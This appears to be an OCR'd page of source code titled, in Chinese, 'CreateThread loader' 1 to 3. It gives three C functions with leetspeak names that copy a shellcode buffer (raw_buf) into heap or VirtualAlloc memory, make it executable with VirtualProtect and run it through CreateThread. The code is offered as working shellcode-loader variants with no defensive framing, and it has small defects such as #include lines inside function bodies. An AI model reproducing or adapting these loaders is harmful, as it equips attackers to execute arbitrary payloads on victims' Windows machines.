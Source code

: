 ###### # CreateThread加载器-1

```c
void cr34te_thr34d_1() {
    //#include <windows.h>
#include <string.h>
    LPVOID lpvAddr = (LPVOID)malloc(1024);
    memset(lpvAddr, '\x00', 1024);
    memcpy(lpvAddr, raw_buf, sizeof(raw_buf));
    DWORD pa = 0x01;
    VirtualProtect(lpvAddr, sizeof(raw_buf), PAGE_EXECUTE_READWRITE, &pa);//PAGE_EXECUTE
    if (lpvAddr != NULL) {
        HANDLE s;
        s = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)lpvAddr, raw_buf, 0, 0);
        WaitForSingleObject(s, INFINITE);
    }
}
```

###### # CreateThread加载器-2

```c
void cr34te_thr34d_2() {
    //#include <windows.h>
    LPVOID lpvAddr = VirtualAlloc(0, 1024, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    RtlMoveMemory(lpvAddr, raw_buf, sizeof(raw_buf));
    DWORD pa = 0x01;
    VirtualProtect(lpvAddr, sizeof(raw_buf), 0x10, &pa);
    if (lpvAddr != NULL) {
        HANDLE s;
        s = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)lpvAddr, raw_buf, 0, 0);
        WaitForSingleObject(s, INFINITE);
    }
}
```

###### # CreateThread加载器-3

```C
void cr34te_thr34d_3() {
    HANDLE heap;
    heap = (int*)HeapCreate(0, 0x00, 0xfff);

    LPVOID lpvAddr;
    lpvAddr = (LPVOID)HeapAlloc(heap, 0, 1024);
    memset(lpvAddr, '\x00', 1024);
    memcpy(lpvAddr, raw_buf, sizeof(raw_buf));
    DWORD pa = 0x01;
    VirtualProtect(lpvAddr, sizeof(raw_buf), PAGE_EXECUTE_READWRITE, &pa);//PAGE_EXECUTE
    if (lpvAddr != NULL) {
        HANDLE s;
        s = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)lpvAddr, raw_buf, 0, 0);
        WaitForSingleObject(s, INFINITE);
    }

}
```
